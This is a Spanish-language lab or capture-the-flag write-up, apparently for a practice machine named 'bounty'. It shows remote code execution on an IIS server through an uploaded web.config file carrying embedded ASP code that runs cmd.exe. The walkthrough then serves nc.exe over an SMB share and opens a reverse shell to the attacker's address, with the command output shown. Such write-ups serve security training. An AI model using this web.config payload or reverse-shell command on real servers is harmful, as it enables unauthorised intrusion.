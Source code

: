 # Ejecución remota de comandos a través de un archivo web.config

Mediante la creación de un archivo `web.config` especialmente diseñado, se detectó que es posible ejecutar comandos en el servidor remoto.

A continuación, se proporciona el contenido del archivo `web.config`:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("cmd.exe /c whoami")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-–>
```

La idea de la definición de este script es que tras la subida del archivo al servidor, se ejecute esta sentencia a nivel de sistema:

```bash
cmd.exe /c whoami
```

Cabe destacar que para ello, es necesario apuntar a la siguiente ruta del servidor web:

* http://10.10.10.93/uploadedFiles/web.config

Una vez ingresado a la URL anteriormente citada, se obtuvo la siguiente respuesta del lado del servidor:

```bash
bounty\\merlin
```

Con el objetivo de ganar acceso al sistema, se compartió un recurso a nivel de red con `impacket-smbserver` que ofreciera el binario `nc.exe`:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
                                              
[*] Config file parsed                     
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed                                                                                                                                                                     
[*] Config file parsed                                                                                                                                                                     
[*] Config file parsed                        
```

Para ello, fue necesario retocar el archivo `web.config`, de forma que se conectara al recurso compartido a nivel de red del atacante para ejecutar dicho binario y ganar acceso en consecuencia al sistema mediante una conexión por TCP:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("cmd.exe /c \\10.10.16.109\smbFolder\nc.exe -e cmd 10.10.16.109 443")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-–>
```

En este punto, tras acceder a la dirección URL `http://10.10.10.93/uploadedFiles/web.config`, se consiguió ganar acceso al sistema:

```bash
rlwrap nc -nlvp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.93.
Ncat: Connection from 10.10.10.93:49160.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv> whoami

bounty\merlin

c:\windows\system32\inetsrv> ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.10.93
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2

Tunnel adapter isatap.{27C3F487-28AC-4CE6-AE3A-1F23518EF7A7}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

c:\windows\system32\inetsrv> hostname

bounty

c:\windows\system32\inetsrv>
```
